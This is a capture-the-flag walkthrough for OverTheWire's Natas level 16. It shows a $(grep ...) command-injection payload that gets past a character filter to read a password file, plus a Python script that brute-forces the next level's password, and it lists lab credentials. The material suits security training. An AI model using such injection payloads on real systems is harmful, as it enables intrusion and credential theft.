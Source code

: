 # [natas 16](http://natas16.natas.labs.overthewire.org)

    Username: natas16
    Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

Like level 10, the input can't contain ";", "|", "&", "`", "\", "'", and """.
But we can still inject other command using $(command).

   $(grep -E ^a.*$ /etc/natas_webpass/natas17)hacker

Input the string above. If the password is start with a, there will be no output.
In this way, we can find out the password.
Similarly, write a python script to complete the work.

    import requests
    chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
            [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
            [chr(i) for i in range(ord("0"),ord("9")+1)]
    password = ''
    for i in range(64):
        for ch in chars:
            if 'hacker' not in requests.get('http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^'+password+ch+'.*$ /etc/natas_webpass/natas17)hacker&submit=Search', auth=('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')).text:
                password += ch
                print(password)
                break
        else:
            break

We get the password.

    8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


